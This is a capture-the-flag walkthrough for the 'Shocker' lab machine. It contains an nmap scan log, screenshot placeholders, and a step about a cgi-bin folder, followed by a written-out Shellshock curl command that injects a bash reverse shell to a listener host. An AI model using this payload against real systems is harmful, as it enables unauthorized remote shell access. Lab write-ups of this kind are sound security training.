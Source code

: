 # shocker

## nmap scan
```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 05:50 EDT
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   123.93 ms 10.10.16.1
2   206.08 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.51 seconds

```


## web page
![screen]("Pasted image 20210715105154.png")
![screen](Pasted image 20210715105217.png)

## directory enumeration
![screen](Pasted image 20210715122218.png)

Found a `cgi-bin` folder, maybe its vulnerable to shellshock
('maybe' ? its literally the name of the machine `shock`)

anyway let's enumerate the files insides the folder.

![screen](Pasted image 20210715122453.png)
Found `user.sh` file, let's exploit it

The command I used:
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Got the shell :
![screen](Pasted image 20210715122748.png)

## Privilege escalation
### shell stabilization
![screen](Pasted image 20210715123008.png)
![screen](Pasted image 20210715123130.png)
